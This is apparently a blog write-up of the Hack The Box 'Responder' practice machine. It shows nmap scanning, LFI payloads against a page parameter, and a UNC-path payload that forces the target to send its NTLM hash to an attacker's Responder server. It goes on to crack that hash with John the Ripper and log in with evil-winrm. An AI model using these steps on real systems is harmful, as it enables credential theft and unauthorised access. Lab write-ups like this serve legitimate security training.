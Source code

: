 ```yaml
---
title: Responder
date: 2025-04-26 00:00:00 +/-TTTT
categories:
  - Practice
  - Hackthebox - Windows
tags:
  - hostname
  - lfi
  - responder
  - john
  - evil-winrm
image: preview-image.png
media_subpath: /assets/img/Practice/Hackthebox - Windows/2025-05-31-responder/
---
```


Responder is the number four Tier 1 machine from the Starting Point series on the Hack The Box platform. During the lab, we utilized some crucial and cutting-edge tools to enhance our Penetration Testing capabilities. These included Responder, John the Ripper, and evil-winrm.

## Enumeration

### Nmap

```bash
┌──(kali㉿kali)-[~/HTB/Starting Point/Responder]
└─$ sudo nmap -sC -sV -oA nmap/initial -p- $tgt
[sudo] password for crimson: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-18 20:27 CDT
Nmap scan report for 10.129.83.175
Host is up (0.049s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.14 seconds
```

### HTTP - 80

Now we will navigate to \[Target\_IP] → and here we get our page not found error.

![](2025-05-31-responder-2.png)

Now we have to add this domain to our /etc/hosts file on our system

```bash
nano /etc/hosts
```

Added

![](2025-05-31-responder-3.png)

Save the file and now we can open our webpage

![](2025-05-31-responder-4.png)

Pages are using PHP.

![](2025-05-31-responder-5.png)

Try changing the language to another one and we get a page=french.html parameter in the URL.

This can be a case of LFI (local file inclusion)

![](2025-05-31-responder-6.png)

Let’s play with this website

and here we are we can

![](2025-05-31-responder-7.png)

Let’s try reading the etc/hosts file on our target system using LFI

```
http://unika.htb/index.php?page=../../../../../../../../../../windows/system32/drivers/etc/hosts
```

Here we are 🚀

![](2025-05-31-responder-8.png)

## Exploitation <a href="#exploitation" id="exploitation"></a>

* Now this is all due to the include() function in PHP
* Our real work starts from here. Now what we are going to do here is we are going to capture the NTLM (New Technology LAN Manager) hash of our administrator using a tool called **Responder**.
* thus, yes our machine is named after it.

### **How does Responder work?**

Responder can do many different kinds of attacks, but for this scenario, it will set up a malicious SMB server. When the target machine attempts to perform the NTLM authentication to that server, the Responder sends a challenge back for the server to encrypt with the user’s password. When the server responds, the Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can’t reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same challenge-response, and if we find one, we know that is the password. This is often referred to as hash cracking, which we’ll do with a program called John The Ripper.

👆🏻this was from HTB’s official machine manual

* Let’s download the responder

```bash
git clone https://github.com/lgandx/Responder
```

* Check that your Responder.conf file is like this one here

![](2025-05-31-responder-9.png)

* Run the tool

```bash
python2 Responder.py -I tun0
```

* `-I` is used for specifying network interface
* After the responder starts now navigate to link

```
http://unika.htb/?page=//[Your_tun0_IP]/blahblah
```

![](2025-05-31-responder-10.png)

* Now check the responder screen

![](2025-05-31-responder-11.png)

* We have our hash 🚀
* we have out NTLM hash of Administrator let’s crack it using john the ripper

```bash
echo "your hash" > hash.txt  
john --wordlist=[path_to_rockyou.txt] hash.txt
```

* our admin password is

![](2025-05-31-responder-12.png)

* Now our http service is running at port 5985/tcp

```bash
evil-winrm -i [Target_IP] -u administrator -p [cracked_password]
```

* this command is to gain PS in our attacking system with administrator access using username and password
* Navigate to mike’s desktop you will find your flag there.

![](2025-05-31-responder-13.png)
